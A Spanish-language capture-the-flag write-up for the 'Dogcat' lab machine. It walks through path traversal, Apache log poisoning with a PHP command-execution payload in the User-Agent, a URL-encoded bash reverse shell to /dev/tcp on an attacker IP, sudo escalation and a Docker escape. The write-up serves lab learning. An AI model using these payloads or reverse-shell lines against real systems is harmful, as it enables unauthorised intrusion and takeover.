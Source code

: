 ```yaml
---
title: Dogcat
description: Write Up de DogCat de la plataforma tryhackme
published: true
date: 2025-05-12T17:28:56.725Z
tags: 
editor: markdown
dateCreated: 2025-05-06T15:56:05.414Z
---
```


# Dogcat
Bienvenido a la documentación de la máquina Dogcat de la plataforma Hack The Box.
## Reconocimiento
Lo primero que vamos a hacer como siempre es usar nmap para hacer un reconocimiento de los puertos disponibles.

```
nmap -sS -sT -Pn {IP}
```

![Imagen del mapeo de Puertos](/imagenes/dogcat_1.png)

Como podemos observar, tenemos el puerto SSH y un puerto HTTP, vamos a ver que hay en la página web con nuestro navegador favorito.

![Primer vistazo del website](/imagenes/dogcat_2.png)

Parece ser que en el website, podemos decidir que queremos ver, sin embargo podemos observar como la URL se ha modificado y nos pasa un parámetro con el animal que queramos ver...

![Observación de la URL](/imagenes/dogcat_3.png)

Cuando modificamos los inputs, podemos ver una serie de errores, por lo que es posible intentar inyectar código o imágenes maliciosas para ganar acceso

![Errores en la URL](/imagenes/dogcat_4.png)

Si nos fijamos, automáticamente se rellena los parámetros con .php, por lo que se podría intentar hacer una inyección de código.

## Explotación
Vamos a hacer uso de &ext=

¿Qué es "&ext="? Es un parámetro que evita que se añadía .php, al archivo seleccionado, con ello podemos abrir un archivo sin necesidad de que siempre ponga .php, por ejemplo, podemos intentar abrir el /etc/passwd

Por ejemplo, podemos poner dog../../../../../etc/passwd&ext. 

![Forzar extensión](/imagenes/dogcat_5.png)

Y ha funcionado, esto nos da la pista de que podríamos incluso infectar archivos importantes, como access.log de apache2, provocando un log poisoning y con ello el acceso al equipo.


Para ello abriremos nuestro Burpsuite, ya que debemos modificar una serie de cosas. Lo que queremos hacer con Burp Suite es pasar como parámetro en User-Agent (Que se lee en el access.log, de Apache2) <?php system ($_GET['cmd']);?>

Con ello podemos empezar a haz log poisoning dentro del website

![Log Poisoning](/imagenes/dogcat_6.png)

Como resultado obtenemos

![Funciona!](/imagenes/dogcat_7.png)

Ahora vamos a intentar hacer una shell reversa con [Revshells](https://www.revshells.com). En mi caso mi ip es la 10.9.3.114 con el puerto 9000. Sin embargo hay que tener en cuenta que deberemos pasarlo codificado en URL.

Como resultado es el lo siguiente: bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.9.3.114%2F9000%200%3E%261%27

![Shell establecida](/imagenes/dogcat_9.png)

Podemos comprobar en la shell que tengamos con el netcat, que tenemos la shell. Vamos a sanear la shell ponemos export TERM=xterm.

## Escalada
Ahora vamos a mirar qué comandos podemos ejecutar como root, para ello hacemos 
``` bash
sudo -l
```

![Escalada de root](/imagenes/dogcat_10.png)

Si nos dirigimos al website de [GTFOBins](https://gtfobins.github.io/gtfobins/env/#shell), podemos ver como hay una forma para obtener root mediante el sudo.


Las flags las tenemos:
- En el propio directorio /var/www/html:
![Primera flag](/imagenes/dogcat_11.png)
- En el directorio de /var/www:
![Segunda flag](/imagenes/dogcat_12.png)
- En el directorio de root:
![Tercera flag](/imagenes/dogcat_13.png)

La última está fuera de docker, debemos tener en cuenta que siempre que estamos en un docker. Se suele crear una carpeta en /opt o /mnt, donde tiene la información. En este caso lo ubicamos en el /opt

![Ir a /opt](/imagenes/dogcat_14.png)

Si miramos la carpeta podemos observar una serie de comandos, donde se hace un tar del contenedor entero.

![Lectura del comando](/imagenes/dogcat_15.png)

Podemos realizar una modificación donde añadimos para que establezca una conexión a nuestro equipo atacante por ejemplo:
![Modificar](/imagenes/dogcat_16.png)
Tras ejecutar el comando deberíamos ser root en la máquina anfitrión también.

Y podremos encontrar la última flag ahí.
![](/imagenes/dogcat_16.png)
